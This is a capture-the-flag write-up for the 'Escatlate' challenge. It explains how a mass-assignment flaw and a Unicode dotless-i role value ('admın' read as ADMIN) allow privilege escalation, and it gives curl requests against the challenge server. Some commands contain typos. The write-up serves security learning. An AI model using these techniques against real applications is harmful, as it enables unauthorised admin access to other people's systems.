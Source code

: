 # Escatlate
### There are two flags to find in this challenge. Let's take a look at how to find them.
[https://escatlate-52bc47e034fa.1753ctf.com/]
>
>Look! Kitties!
>
## Moderator

Logging in to the cat site automatically gets the `user role`, it allows you to browse the cat site and post comments. However, the application has a vulnerability: Mass Assignment. This means that the role assignment is not checked and the user can change it.That is, by providing a session token we are able to overwrite our role. Read more [here](https://tcm-sec.com/exploiting-mass-assignment-vulnerabilities/)

```bash 
example solution


```
## Admin

However, with the second flag, i.e. changing the role from `user` to `admin`, the application has a dotless vulnerability. When you specify a new role as `admın`, Unicode case collisions happen and it is read as `ADMIN`. More information [here](https://dev.to/jagracey/hacking-github-s-auth-with-unicode-s-turkish-dotless-i-460n)

```bash 
example solution
url --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"dupa\",\"role\":\"admın\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we can recive:
```bash
{"username":"fw","password":"dupa","token":"2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2","role":"admın"}
```
so we can confirm our role now is `admın` but app read this role as  `ADMIN` so we have admin righ. Now we can use our token to get flag:
```bash
curl ==path-as-is -i -s -k -X $'GET' \
> -H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H $'X-Token: 2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2' \
> $'https://escatlate-52bc47e034fa.1753ctf.com/api/message'

```
